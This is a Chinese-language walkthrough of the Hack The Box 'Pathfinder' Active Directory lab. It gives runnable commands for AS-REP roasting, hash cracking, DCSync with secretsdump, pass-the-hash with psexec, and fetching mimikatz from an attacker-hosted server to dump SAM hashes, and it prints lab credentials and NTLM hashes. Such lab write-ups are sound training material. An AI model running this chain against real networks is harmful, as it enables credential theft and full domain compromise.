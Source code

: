 # Pathfinder
###### tags: `HTB_Starting Point`

1. 枚舉(Enumeration)

* 老樣子，一開始先用Ping確認VPN可以成功連線到靶機
```
sudo nmap -A -oA /nmap/Pathfind 10.10.10.30
```
![](https://i.imgur.com/b0t8TBu.png)

如上圖Ping的結果，可以發現TTL值為127。由於是走VPN機器和我們之間只有一條路由。因此，肯定它是Windows機器。

* 對所有TCP端口運行Nmap快速掃描，以識別打開的端口。
```
sudo nmap -n -vv --open -T4 -p- -oN Pathfinder.nmap 10.10.10.30
```
-n : Never do DNS resolution
-vv : Extra verbosity
–open : Output only open ports
-p- : Full TCP ports range (65535)
-T4 : Aggressive (4) speeds scans; assumes you are on a reasonably fast and reliable network
![](https://i.imgur.com/fqXrpDO.png)
* 查看一下Nmap結果，通過檢查開放的Port，例如(LADP、Kerberos-sec、Kpasswd5)，可以猜測它是一台AD主機，這也是為什麼要掃描所有端口的好處!

![](https://i.imgur.com/6V1mP8x.png)

* 接下來，我們對所有開放的端口，運行Nmap引擎腳本

```
sudo nmap -sV -sC -oN DetailPorts.nmap -p 49667,49720,49676,49677,593,139,3269,389,9389,135,3268,49664,464,47001,636,49700,49665,49666,49672,5985,445,53,49683,88 10.10.10.30
```
![](https://i.imgur.com/fLi9aBm.png)

* 從上圖的結果可知，我們所在的Domain：MEGACORP。我們從上一台靶機Shield獲得了一些憑據
sandra:Password1234!
* 首先，我們可以使用[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)工具驗證一下
```
sudo ldapdomaindump -u MEGACORP\\sandra -p Password1234! -o ldapinfo 10.10.10.30 --no-json --no-grep  
```
-u    : DOMAIN\username for authentication, leave empty for anonymous authentication
-p    : Password or LM:NTLM hash, will prompt if not specified
-o    : Directory in which the dump will be saved (default: current)
--no-json    : Disable JSON output
--no-grep    : Disable Greppable output 

![](https://i.imgur.com/fkhn0SO.png)
* 查看一下結果，可以發現有很多.html檔案，可以直接在Webpage上面查看!
```
cd ldapinfo
ls
```
![](https://i.imgur.com/V6uLSd6.png)

* 我們選擇下載htmltext工具來查看文檔
```
sudo apt-get install html2text
```
![](https://i.imgur.com/zO2TKk5.png)

* 先來查看一下Domain裡面有哪些使用者
```
html2text domain_users.html
```
![](https://i.imgur.com/ZBwHDYS.png)
![](https://i.imgur.com/0GmKWWV.png)

可以發現到總共有5個帳戶。Guest、Administrator和krbtgt帳戶是default帳戶。 sandra和svc_bes帳戶是用戶創建的帳戶。而值得注意的是svc_bes帳戶，因為它啟用了DONT_REQ_PREAUTH的Flag。

如果需要了解DONT_REQ_PREAUTH標誌的含義，則必須先了解kerberos身份驗證。
現在簡單說明什麼是kerberos身份驗證：
![](https://i.imgur.com/tF1qEJM.png)

當用戶如果設置了DONT_REQ_PREAUTH標誌，則該過程的第二步和第三步可能會丟失。 這代表著可以直接索取Ticket!

2. Foothold(立足點)
* 由於需要用到impacket，所以這邊簡單帶過安裝步驟
```
sudo -s
cd /opt && git clone https://github.com/SecureAuthCorp/impacket.git && cd impacket
sudo python3 -m pip install .
sudo python3 setup.py install
cd examples/
```
* 現在，我們將使用impacket的GetNPUsers.py腳本來獲取Ticket。
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py MEGACORP.LOCAL/svc_bes -dc-ip 10.10.10.30 -request -no-pass -format john 
```
![](https://i.imgur.com/xkKu8RT.png)

* 用vim儲存Hash值，並用John破密
```
vim hash
john hash --fork=10 --wordlist=/usr/share/wordlists/rockyou.txt
```
![](https://i.imgur.com/lZ0HVco.png)

* svc_bes : Sheffield19

* 現在，有了用帳號和密碼，就可以使用[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)工具了。輸入下列指令快速安裝!
```
gem install evil-winrm
```
![](https://i.imgur.com/z14RV61.png)
* 用svc_bes帳號執行工具
```
evil-winrm -u svc_bes -p Sheffield19 -i 10.10.10.30
```
![](https://i.imgur.com/APmWv9Q.png)

我們成功獲得一般使用者的Flag

3. Privilege Escalation(提權)


4. 現在，我們將執行[DCSync](https://www.qomplx.com/kerberos_dcsync_attacks_explained/)攻擊，並使用Impacket的[secretsdump.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py)腳本轉存所有 Domain User的NTLM Hash。
```
cd /opt/impacket/examples
python3 secretsdump.py MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
```
![](https://i.imgur.com/j8W5ESh.png)
* 如上圖所示，我們獲得了Admin的NTLM Hash，接下來使用Pass The Hash attack來提權!
```
python3 psexec.py MEGACORP.LOCAL/Administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```
![](https://i.imgur.com/h4iUgul.png)
* Get Flag!
```
type C:\Users\Administrator\Desktop\root.txt
```
![](https://i.imgur.com/PqELMjN.png)
5. Post Exploitation
* 從目前幾台打下來的經驗，這些靶機都環環相扣，因此我們也將獲取Local admin hash。因此，我們上傳[mimikatz](https://github.com/gentilkiwi/mimikatz/wiki)。然後使用python demon Web服務器將其上傳到靶機上。
```
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210512/mimikatz_trunk.zip && unzip mimikatz_trunk.zip && cd x64 && python3 -m http.server
```
![](https://i.imgur.com/NWCsa8D.png)
![](https://i.imgur.com/PxiC6Hd.png)
```
powershell.exe -c "IWR -useBasicParsing http://10.10.14.15:8000/mimikatz.exe -o mcat.exe"
```
![](https://i.imgur.com/oB9Wu1y.png)

![](https://i.imgur.com/QXBEuCk.png)

* 執行mimikatz
```
./mcat
```
![](https://i.imgur.com/aQQG557.png)

* 獲得Local主機上admin的Hash
```
lsadump::sam
```
Hash：7facdc498ed1680c4fd1448319a8c04f

![](https://i.imgur.com/tkw1rm9.png)

* 最後我們一樣到[crackstation](https://crackstation.net/)網站破密

![](https://i.imgur.com/jl3oW1d.png)

amdin：Password1!

